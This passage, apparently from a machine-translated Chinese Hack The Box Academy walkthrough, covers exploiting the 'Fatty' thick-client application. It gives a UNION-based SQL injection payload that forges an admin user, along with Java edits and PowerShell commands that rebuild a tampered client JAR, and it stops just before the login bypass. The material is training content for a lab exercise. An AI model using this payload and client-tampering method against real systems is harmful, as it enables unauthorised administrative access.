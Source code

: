 
學生會注意到使用者名稱沒有被清理並直接用於 SQL 查詢，這使得它容易受到 SQL 注入的攻擊。學生需要利用現場注入 `username` 來創建虛假的使用者條目：

程式碼：java

```java
test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin
```

事先，學生需要編輯程式碼`htb/fatty/shared/resources/User.java`以從客戶端應用程式提交密碼：

程式碼：java

```java
public void setPassword(String password) {
    this.password = password;
}
```

![攻擊\_常見應用程式\_演示圖像\_93.png](https://academy.hackthebox.com/storage/walkthroughs/39/Attacking_Common_Applications_Walkthrough_Image_93.png)

程式碼：java

```java
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
```

![攻擊\_常見應用程式\_演示圖像\_94.png](https://academy.hackthebox.com/storage/walkthroughs/39/Attacking_Common_Applications_Walkthrough_Image_94.png)

同學需要重新編譯java類別文件，然後建立一個新的JAR：

代碼：powershell

```powershell
javac -cp .\fatty-client-new.jar .\fatty-client-new.jar.src\htb\fatty\shared\resources\User.java
mv -Force .\fatty-client-new.jar.src\htb\fatty\shared\resources\*.class .\raw\htb\fatty\shared\resources\
cd .\raw\
jar -cmf .\META-INF\MANIFEST.MF inject.jar .
```

&#x20; 利用胖客戶端應用程式中的 Web 漏洞

```powershell-session
PS C:\Users\cybervaca\Desktop> javac -cp .\fatty-client-new.jar .\fatty-client-new.jar.src\htb\fatty\shared\resources\User.java
PS C:\Users\cybervaca\Desktop> mv -Force .\fatty-client-new.jar.src\htb\fatty\shared\resources\*.class .\raw\htb\fatty\shared\resources\
PS C:\Users\cybervaca\Desktop> cd .\raw\
PS C:\Users\cybervaca\Desktop\raw> jar -cmf .\META-INF\MANIFEST.MF inject.jar .
```

最後，學生需要執行新編譯的`inject.jar`並使用 SQL 注入負載（用作`abc`密碼）繞過登入：
